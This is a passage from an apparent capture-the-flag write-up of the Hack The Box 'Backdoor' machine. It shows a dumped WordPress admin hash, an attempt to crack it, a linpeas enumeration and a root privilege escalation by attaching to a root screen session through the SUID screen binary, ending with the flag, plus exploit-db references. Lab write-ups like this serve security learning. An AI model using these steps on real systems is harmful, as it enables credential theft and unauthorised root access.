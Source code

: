```mysql
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url            | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Bt8c3ivanSGd2TFcm3HV/9ezXPueg5. | admin         | admin@wordpress.com | http://backdoor.htb | 2021-07-24 13:19:11 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+



```

Saving the WordPress (MD5) hash to a file and trying to crack it with rockyou.txt fails, so I assume this is not the intended path. 

----

<br>

### Step 2

Instead upload `linpeas.sh` and run. From it we find a interesting process running as root:
`root         955  0.0  0.0   2608  1800 ?        Ss   04:27   0:07      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done`

The script will start a screen with the name `<pid>.root` as root.
Running `ps aux` we can see pid 1017 for the active screen, meaning the name is `1017.root`.

```bash
user@Backdoor:/tmp$ ps aux | grep root
[... snip ...]
root        1017  0.0  0.1   6952  2504 ?        Ss   04:27   0:00 SCREEN -dmS root
```

Screen has the SUID bit set, which is mostly done for screen sharing.
```bash
user@Backdoor:/tmp$ ls -al $(which screen)
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
```

Attach the root screen (`1017.root`) and grab the flag.

```bash
user@Backdoor:/tmp$ screen -x root/1017.root
root@Backdoor:~$ id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# cat root.txt 
ebd680a7fc4ffa43b442fa64cb2e8644
```


------

# References
**wordpress ebook download:**
https://www.exploit-db.com/exploits/39575

**gdbserver rce:**
https://www.exploit-db.com/exploits/50539

**screen session sharing:**
https://wiki.networksecuritytoolkit.org/index.php/HowTo_Share_A_Terminal_Session_Using_Screen